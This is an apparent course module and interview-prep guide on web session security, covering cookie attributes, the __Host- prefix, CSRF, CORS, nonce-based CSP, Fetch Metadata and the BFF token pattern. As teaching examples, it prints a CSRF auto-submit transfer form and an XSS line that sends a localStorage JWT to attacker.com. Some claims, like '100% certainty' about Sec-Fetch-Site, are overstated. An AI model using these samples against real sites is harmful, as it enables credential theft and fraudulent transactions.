




# Module 05 — Web Sessions, Cookie Security & Browser Defense Architecture

The web browser is an adversarial, multi-origin execution environment. A single client instance routinely executes untrusted third-party JavaScript, renders untrusted iframes, and communicates across origin boundaries. Securing web applications requires deep mastery of the browser security model: the Same-Origin Policy (SOP), stateful session management, cookie security attributes, cookie prefix defenses (`__Host-`), Cross-Site Request Forgery (CSRF) mechanics, Content Security Policy (CSP Level 3), Fetch Metadata headers, and token containment via the Backend-For-Frontend (BFF) pattern (RFC 10017).

---

## 1. The Same-Origin Policy (SOP) & Browser Isolation

The foundation of web security is the **Same-Origin Policy (SOP)**. Two URLs share the same origin if and only if their **Scheme**, **Host**, and **Port** are strictly identical:

$$\text{Origin} = (\text{Scheme}, \text{Host}, \text{Port})$$

| Target URL Comparison against `https://api.example.com:443/v1` | Same Origin? | Reason |
| :--- | :---: | :--- |
| `https://api.example.com/v1/users` | **YES** | Same scheme (https), host (`api.example.com`), and default port (443). |
| `http://api.example.com/v1` | **NO** | Scheme mismatch (`http` vs `https`). |
| `https://auth.example.com/v1` | **NO** | Host mismatch (`auth` vs `api`). |
| `https://api.example.com:8443/v1` | **NO** | Port mismatch (`8443` vs `443`). |

Under the SOP:
- Origin A can embed resources from Origin B (images via ``, scripts via `<script>`, stylesheets via `<link>`).
- Origin A can submit data to Origin B via `<form action="...">`.
- **Origin A CANNOT read the HTTP response contents or access the DOM/LocalStorage of Origin B via JavaScript (`fetch`, `XMLHttpRequest`) unless Origin B explicitly grants permission via Cross-Origin Resource Sharing (CORS).**

---

## 2. Stateful Sessions vs Stateless Tokens



### The Architectural Trade-Off
- **Stateful Sessions**: The server generates a high-entropy random identifier (e.g. 128-bit CSPRNG token) stored in an HTTP-only cookie. User state resides in a centralized server-side data store (Redis).
  - *Advantage*: **Immediate Revocation**. If an account is suspended or logged out, deleting the session record in Redis invalidates the session instantly across all devices.
  - *Disadvantage*: Centralized state lookup latency on every API request; requires a shared cache cluster.
- **Stateless Tokens (JWT)**: User state and claims are cryptographically signed and stored in the client's token.
  - *Advantage*: Horizontal scaling with zero database lookups; services verify signatures locally using public keys.
  - *Disadvantage*: **Revocation Impossibility**. Once minted, a JWT remains valid until its `exp` timestamp arrives. Emergency revocation requires managing complex distributed denylists, which negates the stateless benefit.

### Session Fixation & Privilege Rotation
In a **Session Fixation Attack**, an attacker obtains a valid session identifier from the application (e.g. `sessionId = FIX123`), tricks a victim into authenticating with that pre-allocated session ID (via an email link or cookie tossing), and then uses `FIX123` to hijack the victim's authenticated state.
- **Mandatory Defense**: The application must destroy the existing session identifier and generate a **completely new, cryptographically random session ID immediately upon any successful login or privilege transition**.

---

## 3. Cookie Security Attributes & The `__Host-` Prefix

Cookies are transmitted automatically by the browser with every outgoing HTTP request matching the cookie's domain and path. Hardening cookies requires four essential attributes:

1. **`Secure`**: Directs the browser to transmit the cookie **only over encrypted TLS (HTTPS)** connections. Prevents packet sniffers from capturing session cookies over insecure Wi-Fi.
2. **`HttpOnly`**: Blocks client-side JavaScript (`document.cookie`) from reading the cookie. If an application suffers a Cross-Site Scripting (XSS) vulnerability, an attacker cannot exfiltrate an `HttpOnly` session cookie via script.
3. **`SameSite`**: Dictates whether the cookie is transmitted on cross-site requests:
   - `SameSite=Strict`: The cookie is sent **only** on requests originating from the exact same site. Clicking a link from an external email or site to the application strips the cookie.
   - `SameSite=Lax` (Modern Browser Default): The cookie is withheld on cross-site sub-resource requests (``, `<iframe>`, `fetch`), but transmitted on "safe" top-level cross-site navigations (clicking a link `<a href="...">`).
   - `SameSite=None`: The cookie is sent on all cross-site requests; **strictly requires the `Secure` flag**.
4. **CHIPS (`Partitioned`)**: Cookies Having Independent Partitioned State. Partitions the cookie store by top-level site, preventing cross-site tracking in embedded iframes while preserving functionality in third-party widgets.

### Cookie Tossing & The `__Host-` Cookie Prefix (RFC 6265bis)
By default, a parent domain (`example.com`) or sibling subdomain (`attacker.example.com`) can overwrite cookies for other subdomains (`app.example.com`). In a multi-tenant or shared subdomain environment, a compromised sibling subdomain can inject a forged session cookie ("Cookie Tossing").

RFC 6265bis standardizes the **`__Host-` Prefix**:
If a cookie name begins with `__Host-` (e.g. `Set-Cookie: __Host-sessionId=xyz; ...`), the browser will **reject** the cookie unless it satisfies all three conditions:
1. It is set over HTTPS with the **`Secure`** flag.
2. It has **`Path=/`** (covering the entire origin).
3. It **omits the `Domain` attribute** entirely (pinning the cookie exclusively to the exact originating hostname and preventing inheritance by subdomains).

---

## 4. Cross-Site Request Forgery (CSRF) & Defensive Architecture

In a **Cross-Site Request Forgery (CSRF)** attack, an authenticated user visits a malicious website (`evil.com`). `evil.com` includes an HTML form targeting the user's banking API:
```html
<form action="https://bank.example.com/transfer" method="POST">
  <input type="hidden" name="amount" value="10000" />
  <input type="hidden" name="to" value="attacker" />
</form>
<script>document.forms[0].submit();</script>
```
Because the browser automatically attaches all ambient cookies for `bank.example.com`, the bank's server executes the transfer under the victim's session.



### Why `SameSite=Lax` is Not a Complete CSRF Defense
Many developers falsely believe modern browsers' `SameSite=Lax` default renders CSRF defenses obsolete. This is dangerous for three reasons:
1. **GET Requests with Side-Effects**: `SameSite=Lax` permits top-level navigations. If an API poorly implements state changes via `GET` (`GET /delete?id=10`), clicking a link on `evil.com` executes the action with ambient cookies.
2. **Chrome's 2-Minute Lax+POST Window**: Chromium allows cookies to be sent on cross-site POST requests within 120 seconds of cookie creation without a top-level user gesture ("Lax-allowing-unsafe").
3. **Same-Site Sibling Takeover**: Two subdomains (`app.example.com` and `blog.example.com`) share the same registrable site (`example.com`). `SameSite` treats traffic between them as same-site, allowing a vulnerability on the blog to execute CSRF against the core app.

### True Defense: Anti-CSRF Synchronizer Tokens & Custom Headers
- **Synchronizer Token Pattern**: The server generates a unique, cryptographically random, per-session anti-CSRF token. The token is embedded into forms or HTML meta tags. On state-changing requests (`POST`, `PUT`, `DELETE`), the server rejects requests unless the submitted token matches the server-side session token.
- **Custom Header Checking**: Automated AJAX applications require client JavaScript to attach a custom HTTP header (e.g. `X-Requested-With: XMLHttpRequest` or `X-CSRF-Token: ...`). Because cross-origin `<form>` submissions cannot inject custom headers without triggering a preflight CORS check, simple custom header presence proves the request originated from authorized client script.

---

## 5. Cross-Origin Resource Sharing (CORS) Demystified

**CORS is NOT a security mechanism to protect backend APIs.** It is a mechanism that allows a server to **relax** the browser's default Same-Origin Policy.

When client script on `https://frontend.com` attempts to fetch data from `https://api.backend.com`:
1. For "simple" requests (standard GET/POST with simple headers), the browser sends the request immediately, appending the `Origin: https://frontend.com` header. The browser inspects the response: if `Access-Control-Allow-Origin` is missing or does not match `frontend.com`, the browser hides the response from JavaScript and throws a CORS error. (Note: the backend *still processed the request*!).
2. For "non-simple" requests (custom headers, JSON `Content-Type: application/json`, `PUT`/`DELETE`), the browser dispatches an automatic **Preflight `OPTIONS`** request first:
   ```http
   OPTIONS /api/data HTTP/1.1
   Host: api.backend.com
   Origin: https://frontend.com
   Access-Control-Request-Method: POST
   Access-Control-Request-Headers: authorization, content-type
   ```
3. If the server replies authorizing the origin and headers, the browser executes the actual request.



### Critical CORS Misconfigurations
- **Origin Reflection**: A backend blindly reading the incoming `Origin` header and echoing it back in `Access-Control-Allow-Origin: <Origin>` with `Access-Control-Allow-Credentials: true`. This allows any malicious website on the internet (`evil.com`) to read authenticated user data!
- **Null Origin Trust**: Reflecting `Access-Control-Allow-Origin: null`. Sandboxed iframes and local files send `Origin: null`, allowing an attacker to bypass domain filters.

---

## 6. Content Security Policy (CSP Level 3) & Fetch Metadata

**Content Security Policy (CSP)** is an HTTP response header that restricts the resources (scripts, styles, images, iframes) that the browser is permitted to load and execute, providing the ultimate defense-in-depth against Cross-Site Scripting (XSS).

### Legacy CSP vs Modern Nonce-Based Strict CSP
Historical CSP relied on domain allowlists (`script-src 'self' https://cdn.example.com`). Allowlists are brittle and consistently bypassed via JSONP endpoints or hosted script gadgets on the CDN.

**Modern CSP Level 3** uses **Cryptographic Nonces** and `'strict-dynamic'`:
```http
Content-Security-Policy: script-src 'nonce-rAnd0m123' 'strict-dynamic'; object-src 'none'; base-uri 'none';
```
- The server generates a fresh CSPRNG nonce (`nonce-rAnd0m123`) on every HTTP response.
- Only `<script nonce="rAnd0m123">` tags possessing the exact matching nonce can execute.
- `'strict-dynamic'` allows legitimately loaded scripts to dynamically create new script elements without requiring explicit nonces for child bundles.
- Injected inline scripts (`<script>alert(1)</script>`) lack the secret nonce and are immediately blocked by the browser.

### Fetch Metadata Headers (Sec-Fetch-*)
Modern browsers append unforgeable HTTP headers to all outgoing requests providing environmental context:
- `Sec-Fetch-Site`: `same-origin`, `same-site`, `cross-site`, or `none`.
- `Sec-Fetch-Mode`: `cors`, `navigate`, `nested-navigate`, `no-cors`.
- `Sec-Fetch-Dest`: `document`, `image`, `script`, `empty`.

A backend server can enforce a bulletproof, zero-token CSRF defense middleware simply by checking:
```typescript
// Reject all cross-site state-changing API mutations
if (req.method !== "GET" && req.method !== "HEAD") {
  const site = req.headers["sec-fetch-site"];
  if (site === "cross-site") {
    return res.status(403).json({ error: "Cross-site request rejected" });
  }
}
```

---

## 7. Token Storage in Clients: The BFF Pattern (RFC 10017)

Storing sensitive OAuth access tokens or refresh tokens in browser `localStorage` or `sessionStorage` is an architectural anti-pattern: any Cross-Site Scripting (XSS) vulnerability anywhere on the origin allows an attacker to execute `localStorage.getItem("token")` and exfiltrate credentials.

### The Backend-For-Frontend (BFF) Pattern (RFC 10017)
To achieve complete token containment, RFC 10017 standardizes the **Backend-For-Frontend (BFF)** pattern (Token-Mediating Backend):



1. The Single Page Application (SPA) communicates only with its local BFF gateway over HTTPS.
2. The browser never receives or stores raw OAuth access or refresh tokens. It receives only an encrypted, `HttpOnly`, `SameSite=Strict`, `__Host-` session cookie.
3. When the browser issues a request, the BFF terminates the session cookie, retrieves the corresponding access token from server-side memory, and forwards the request to downstream microservices with a Bearer or DPoP-bound token.
4. If an XSS vulnerability occurs in the SPA, the attacker cannot steal the underlying OAuth tokens or achieve persistent account takeover.

---

## 8. Then vs Now: Evolution of Browser Security Architecture

| Security Dimension | Historical Paradigm (Then) | Modern Production Architecture (Now) |
| :--- | :--- | :--- |
| **Token Storage** | Storing JWTs and Refresh Tokens in `localStorage`. | **Backend-For-Frontend (BFF)** with `__Host-HttpOnly` cookies (RFC 10017). |
| **Cookie Isolation** | Standard cookies vulnerable to subdomain cookie tossing. | **`__Host-` Prefix Cookies** strictly pinned to exact host. |
| **CSRF Defense** | Relying solely on `SameSite=Lax`. | **Custom Headers + Fetch Metadata (`Sec-Fetch-Site`) + Anti-CSRF Tokens**. |
| **XSS Defense** | Complex HTML regex sanitization filters. | **CSP Level 3 (`'nonce-...' 'strict-dynamic'`)** & **Trusted Types API**. |
| **CORS Policy** | Reflecting incoming `Origin` to "make it work". | **Strict Domain Allowlist Verification**; never reflecting unvalidated origins. |

---

## 9. Interview Drill: Web Security & Session Architecture

<details>
<summary>1. A frontend developer insists: "We don't need cookies or CSRF protection because we store our JWTs in `localStorage` and send them via `Authorization: Bearer` headers." What are the critical trade-offs and vulnerabilities of this decision?</summary>

Storing tokens in `localStorage` eliminates traditional CSRF attacks (because browsers do not attach `localStorage` automatically across origins). However, it introduces a vastly more dangerous vulnerability: **Trivial XSS Token Exfiltration**. 
Any JavaScript executing on the origin (via an injection vulnerability, compromised npm dependency, or malicious third-party script) has unrestricted access to `localStorage`. An attacker executes:
`fetch('https://attacker.com/steal?token=' + localStorage.getItem('jwt'))`
and permanently captures the user's credentials. 
Furthermore, `localStorage` provides zero scoping mechanisms: it ignores the `Secure` flag (accessible over plaintext HTTP if mixed content occurs) and cannot be marked `HttpOnly`. 
The modern architecture is the **Backend-For-Frontend (BFF)** pattern, keeping tokens in server-side storage and using `__Host-HttpOnly` cookies.
</details>

<details>
<summary>2. Why does the `__Host-` cookie prefix require omitting the `Domain` attribute, and what attack does this prevent?</summary>

When a cookie specifies a `Domain` attribute (e.g. `Set-Cookie: name=val; Domain=example.com`), the cookie is automatically inherited by all subdomains (`foo.example.com`, `bar.example.com`). Furthermore, RFC 6265 allows sibling subdomains to set cookies for the parent domain. 
In a **Cookie Tossing Attack**, an attacker who compromises a lower-security sibling subdomain (`user-blog.example.com`) injects a forged cookie for `example.com`. When the user navigates to the secure banking app (`bank.example.com`), the browser sends both cookies, creating session confusion.
Omitting the `Domain` attribute instructs the browser to pin the cookie **strictly and exclusively to the exact hostname that set it**. Combined with the `Secure` flag and `Path=/`, the `__Host-` prefix guarantees that no parent or sibling subdomain can overwrite or shadow the session cookie.
</details>

<details>
<summary>3. Explain how Fetch Metadata headers (`Sec-Fetch-Site`) allow an API server to prevent CSRF without managing per-session synchronizer tokens.</summary>

Fetch Metadata headers are generated directly by the browser's network stack and cannot be overridden by JavaScript or malicious forms. 
For any outgoing HTTP request, the browser includes `Sec-Fetch-Site: same-origin`, `same-site`, or `cross-site`. 
When receiving a state-changing API request (`POST`, `PUT`, `DELETE`), the server simply inspects `req.headers['sec-fetch-site']`. If the value is `cross-site`, the server knows with 100% cryptographic browser certainty that the request was triggered by an external website (such as `evil.com`), and instantly rejects the request with HTTP 403 Forbidden. This eliminates the operational overhead of generating and validating synchronizer tokens for API endpoints.
</details>

<details>
<summary>4. Why does configuring `Access-Control-Allow-Origin: *` fail to work when client requests include `credentials: "include"`?</summary>

The W3C CORS specification explicitly forbids the wildcard `*` from being used when credentials (cookies, HTTP authentication, or client TLS certificates) are enabled. 
If the browser allowed `Access-Control-Allow-Origin: *` with credentials, any malicious website on the internet could issue an asynchronous `fetch('https://bank.com/account', { credentials: 'include' })` and read the user's private financial records. 
When credentials are included, the server must explicitly respond with a specific, validated origin:
`Access-Control-Allow-Origin: https://trusted.example.com`
`Access-Control-Allow-Credentials: true`
If the server returns `*`, the browser halts and throws a CORS security error without exposing the response data.
</details>

<details>
<summary>5. What is the difference between a Nonce-based Content Security Policy and a Domain-based Allowlist, and why is the domain allowlist considered obsolete?</summary>

- **Domain Allowlist** (`script-src 'self' cdn.example.com`): Authorizes scripts based on the domain from which they are loaded. It is obsolete because attackers easily bypass it using "script gadgets" on the allowed domain (e.g. an outdated Angular/jQuery library on the CDN, or an open JSONP callback endpoint that reflects user input).
- **Nonce-based CSP** (`script-src 'nonce-random' 'strict-dynamic'`): Authorizes scripts based on a per-request cryptographically random nonce generated by the server. Even if an attacker injects `<script src="https://cdn.example.com/exploit.js">` or inline `<script>alert(1)</script>`, the browser refuses to execute it because the attacker cannot guess the secret 128-bit nonce generated for that specific HTTP response.
</details>
